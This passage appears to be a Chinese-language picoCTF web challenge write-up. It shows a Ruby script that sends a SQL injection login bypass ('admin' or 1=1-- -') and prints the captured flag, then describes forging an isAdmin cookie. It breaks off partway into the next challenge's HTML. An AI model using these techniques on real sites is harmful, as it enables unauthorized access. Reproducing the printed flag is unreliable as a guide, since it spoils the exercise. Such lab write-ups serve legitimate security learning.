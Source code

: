 发现这个直接就把查询的语句给放上来了, 这可真的是不妙啊, 
于是我一开始准备写一个测试用的函数来方便多次手工注入, 结果, 
让我失望的是, 这个直接就被万能公式给解决了: 

```irb
3.0.0 :009 > def test(username, password)
3.0.0 :010 >   uri = URI('http://saturn.picoctf.net:50587/login.php')
3.0.0 :011 >   res = Net::HTTP.post_form(uri, 'username' => username, 'password'
 => 'password')
3.0.0 :012 >   puts res.body
3.0.0 :013 >   res.body
3.0.0 :014 > end
 => :test 
3.0.0 :015 > test("admin' or 1=1-- -", "password")
<pre>username: admin&#039; or 1=1-- -
password: password
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; or 1=1-- -&#039; AND password=&#039;password&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}</p>
 => "<pre>username: admin&#039; or 1=1-- -\npassword: password\nSQL query: SELECT * FROM users WHERE name=&#039;admin&#039; or 1=1-- -&#039; AND password=&#039;password&#039;\n</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}</p>"
```

轻松. 

### Power Cookie
看名字肯定是改 Cookie, 试了几次, 从`true`, `True`, 
最后改成了`1`, 然后通过了. 

思考网站的背后的机制, 应该是http://saturn.picoctf.net:61304/
将Cookie写入, 并写成`0`, 然后在http://saturn.picoctf.net:61304/check.php
检查名字叫做`isAdmin`的`Cookie`的值.

后来思考了一下, 为什么一开始没有成功, 原因估计就是我没搞清楚机制, 
在主网页更新了Cookie, 但是跳转到check页的时候Cookie被无视了, 
于是导致了我死活登录不上. 

稍微介绍一下, Cookie有点像是古代皇上给臣子的那种免死金牌, 
网站把Cookie给到你的游览器, 然后下一次你登陆网站的时候, 
亮出你的免死金牌, 网站就会把你轻松放过. 但是免死金牌有时候也有时限, 
比如换了新的皇帝, 你的前朝金牌就没有那么吃香了. 所以你就要重新认证, 
让服务器重新给你一块免死金牌. 或者是这个皇帝很小心, 怕别人伪造, 
(对不起, 这道题里面的你就要伪造免死金牌啦), 经常更换. 
也会导致你需要重新认证. 说白了, 免死金牌虽然给用户带来了方便, 
但是因为可以伪造, 并且读取Cookie会有记录用户数据的考虑. 

### Local Authority
这道题的名字非常有提示意味, 真的是在本地来检测登陆认证的. 

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Login Page</title>
  </head>
  <body>
    <script src="secure.js"></script>
    
    <p id='msg'></p>
```